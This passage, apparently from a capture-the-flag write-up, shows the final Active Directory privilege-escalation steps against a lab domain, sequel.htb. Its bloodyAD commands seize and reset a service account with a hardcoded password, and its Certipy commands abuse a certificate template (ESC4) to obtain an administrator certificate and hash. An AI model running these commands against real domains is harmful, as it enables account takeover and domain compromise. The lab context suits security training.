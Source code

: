     bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' set owner ca_svc ryan  && \
    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' add genericAll ca_svc ryan   && \
    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' set password ca_svc 'newP@ssword2022' && \

    certipy template -u ca_svc -p 'newP@ssword2022' -template 'DunderMifflinAuthentication' -target sequel.htb -save-old   && \
    certipy req -ca sequel-DC01-CA -u ca_svc -p 'newP@ssword2022' -template 'DunderMifflinAuthentication' -target sequel.htb -upn administrator@sequel.htb
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*witba01NKUAqLUSJ39g1gg.png)
4. Request a TGT using the certificate
    ```
    certipy auth -pfx administrator.pfx
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*vrLyXYWJJ8bwNSHOPwAhAw.png)
    Now we have access to the administrator account hash so we can auth using evil-winrm and grep the flags. 
    ![](https://cdn-images-1.medium.com/max/1000/1*DEHyT1Pt3tjstqE60fLblw.png)

---

## 4. Resources 

1. **[Abusing AD-DACL: WriteOwner](https://www.hackingarticles.in/abusing-ad-dacl-writeowner/)**
2. **[Active Directory Certificate Services (ADCS – ESC4)](https://rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/)**

